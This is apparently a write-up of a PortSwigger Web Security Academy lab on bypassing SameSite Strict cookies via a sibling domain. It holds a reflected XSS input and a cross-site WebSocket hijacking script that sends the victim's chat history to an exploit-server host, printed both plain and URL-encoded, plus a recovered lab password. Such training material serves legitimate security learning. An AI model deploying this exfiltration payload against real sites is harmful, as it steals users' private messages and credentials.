










# **SameSite Strict bypass via sibling domain**

Requirement <https://portswigger.net/web-security/websockets>

**Objective:** Login as the user.

This lab's live chat feature is vulnerable to cross-site WebSocket hijacking (CSWSH).

There are no CSRF tokens, which implies vulnerability for the /chat endpoint:



We can also see that the chat page is loading a js file:



And looking into the contents of the file:

```
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
Access-Control-Allow-Origin: https://cms-0a3000ad04301698826de8fe0027002d.web-security-academy.net
X-Frame-Options: SAMEORIGIN
Content-Length: 3561

(function () {
    var chatForm = document.getElementById("chatForm");
    var messageBox = document.getElementById("message-box");
    var webSocket = openWebSocket();

    messageBox.addEventListener("keydown", function (e) {
        if (e.key === "Enter" && !e.shiftKey) {
            e.preventDefault();
            sendMessage(new FormData(chatForm));
            chatForm.reset();
        }
    });

    chatForm.addEventListener("submit", function (e) {
        e.preventDefault();
        sendMessage(new FormData(this));
        this.reset();
    });

    function writeMessage(className, user, content) {
        var row = document.createElement("tr");
        row.className = className

        var userCell = document.createElement("th");
        var contentCell = document.createElement("td");
        userCell.innerHTML = user;
        contentCell.innerHTML = (typeof window.renderChatMessage === "function") ? window.renderChatMessage(content) : content;

        row.appendChild(userCell);
        row.appendChild(contentCell);
        document.getElementById("chat-area").appendChild(row);
    }

    function sendMessage(data) {
        var object = {};
        data.forEach(function (value, key) {
            object[key] = htmlEncode(value);
        });

        openWebSocket().then(ws => ws.send(JSON.stringify(object)));
    }

    function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }

    function openWebSocket() {
       return new Promise(res => {
            if (webSocket) {
                res(webSocket);
                return;
            }

            let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

            newWebSocket.onopen = function (evt) {
                writeMessage("system", "System:", "No chat history on record");
                newWebSocket.send("READY");
                res(newWebSocket);
            }

            newWebSocket.onmessage = function (evt) {
                var message = evt.data;

                if (message === "TYPING") {
                    writeMessage("typing", "", "[typing...]")
                } else {
                    var messageJson = JSON.parse(message);
                    if (messageJson && messageJson['user'] !== "CONNECTED") {
                        Array.from(document.getElementsByClassName("system")).forEach(function (element) {
                            element.parentNode.removeChild(element);
                        });
                    }
                    Array.from(document.getElementsByClassName("typing")).forEach(function (element) {
                        element.parentNode.removeChild(element);
                    });

                    if (messageJson['user'] && messageJson['content']) {
                        writeMessage("message", messageJson['user'] + ":", messageJson['content'])
                    } else if (messageJson['error']) {
                        writeMessage('message', "Error:", messageJson['error']);
                    }
                }
            };

            newWebSocket.onclose = function (evt) {
                webSocket = undefined;
                writeMessage("message", "System:", "--- Disconnected ---");
            };
        });
    }
})();
```

We now know how the websocket is interacting.

But we still don’t know how to exploit the site to login as the user, so we need to explore the attack surface. Looking into the response for the JS file above, we can see the Access-Control-Allow-Origin is in another sibling domain https://cms-LAB_ID.web-security-academy.net, if we visit this site we get:



The next step is actually a leap, but the username field, is vulnerable to reflected XSS:

```
username: <script>alert("asd")</script>
```



In burp:



Ok now the path is more clear, if we can inject code to get the chat history to get user private information we can get a hint of what the password might be. The code I built is:

```
 <script>
  var newWebSocket = new WebSocket("wss://0a3300c9036fa89b8029173c00fb006e.web-security-academy.net/chat");

  newWebSocket.onopen = function (evt) {
      newWebSocket.send("READY");
  }

  newWebSocket.onmessage = async function (evt) {
      var message = evt.data;
      await fetch(
          "https://exploit-0a0300ab038ba89280c316e701730041.exploit-server.net/exploit?message=" +
          btoa(message)
      );
  }
</script>
```

Now we can see the encoded message in the access logs, and decoding with Burp we get:

```
200.118.80.44   2024-11-13 01:42:42 +0000 "GET /exploit?message=eyJ1c2VyIjoiQ09OTkVDVEVEIiwiY29udGVudCI6Ii0tIE5vdyBjaGF0dGluZyB3aXRoIEhhbCBQbGluZSAtLSJ9 HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36"
```



So we confirm the code is working on the victims side, now we only get this message because there is an issue with the access-control, we need to serve the exploit from the same domain. But we can do this using the XSS vulnerability found earlier:

So we URL encode the script that gets the chat history:

```
%20%3c%73%63%72%69%70%74%3e%0a%20%20%76%61%72%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%33%33%30%30%63%39%30%33%36%66%61%38%39%62%38%30%32%39%31%37%33%63%30%30%66%62%30%30%36%65%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%7d%0a%0a%20%20%6e%65%77%57%65%62%53%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%61%73%79%6e%63%20%66%75%6e%63%74%69%6f%6e%20%28%65%76%74%29%20%7b%0a%20%20%20%20%20%20%76%61%72%20%6d%65%73%73%61%67%65%20%3d%20%65%76%74%2e%64%61%74%61%3b%0a%20%20%20%20%20%20%61%77%61%69%74%20%66%65%74%63%68%28%0a%09%20%20%20%20%20%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%30%33%30%30%61%62%30%33%38%62%61%38%39%32%38%30%63%33%31%36%65%37%30%31%37%33%30%30%34%31%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%0a%09%20%20%20%20%20%20%62%74%6f%61%28%6d%65%73%73%61%67%65%29%0a%20%20%20%20%20%20%29%3b%0a%20%20%7d%0a%3c%2f%73%63%72%69%70%74%3e
```

We double check that the request can be done as a GET request:



And it seems it is working as expected. Now we deliver the exploit just redirecting to the URL with this payload ☝️:



Now we just have to wait for the access log to get the info:



And decoding the info:



In text:

```
{"user":"Hal Pline","content":"No problem carlos, it&apos;s xmnhbu1tiw8z8ooiynm8"}
```

And we can login with carlos and this password ☝️
